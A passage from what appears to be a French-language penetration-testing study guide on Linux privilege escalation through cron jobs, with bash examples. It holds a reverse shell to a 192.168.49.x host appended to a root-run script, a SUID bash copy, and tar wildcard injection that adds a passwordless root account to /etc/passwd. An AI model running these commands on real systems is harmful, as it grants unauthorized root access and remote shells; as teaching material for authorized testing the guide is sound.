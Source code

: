     # Supposons qu'un script /opt/log-backup.sh est exécuté par root via cron et est modifiable
    ls -l /opt/log-backup.sh # Vérifier les permissions
    # Si modifiable, injecter une commande (ex: reverse shell)
    echo 'bash -i >& /dev/tcp/192.168.49.x/9876 0>&1' >> /opt/log-backup.sh
    # Attendre la prochaine exécution du cron.
    ```
    Exemple (Ochima - tiré de `05-linux-internals...`):
    ```bash
    # Modifier un script de sauvegarde exécuté par cron (/var/backups/etc_Backup.sh)
    ls -l /var/backups/etc_Backup.sh # Vérifier les permissions
    # Si modifiable :
    echo "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash" >> /var/backups/etc_Backup.sh
    # Attendre l'exécution du cron, puis :
    # /tmp/rootbash -p
    # id
    ```

2.  **Abus de Caractères Jokers (Wildcards) dans les Commandes Cron :**
    > Si une commande cron utilise un wildcard (`*`) de manière non sécurisée (ex: `tar *`, `chown *`).
    ```bash
    # Exemple : cron exécute `tar czf /backups/archive.tgz /home/user/*` en tant que root.
    # Dans /home/user/ :
    echo 'echo "hacked::0:0:root:/root:/bin/bash" >> /etc/passwd' > /home/user/rootkit.sh
    chmod +x /home/user/rootkit.sh
    touch "/home/user/--checkpoint-action=exec=sh rootkit.sh"
    touch "/home/user/--checkpoint=1"
    # Lorsque tar s'exécute, il interprète les noms de fichiers comme des options, exécutant rootkit.sh.
    ```

3.  **Variable PATH non Sécurisée dans les Scripts Cron :**
    > Si un script cron exécuté par root utilise des commandes sans leur chemin absolu et que la variable `PATH` du cron peut être influencée ou contient des répertoires inscriptibles (comme `.`).
    ```bash
    # Scénario : /etc/crontab contient : * * * * * root backup.sh
    # Et backup.sh contient : service apache2 restart (sans /usr/sbin/service)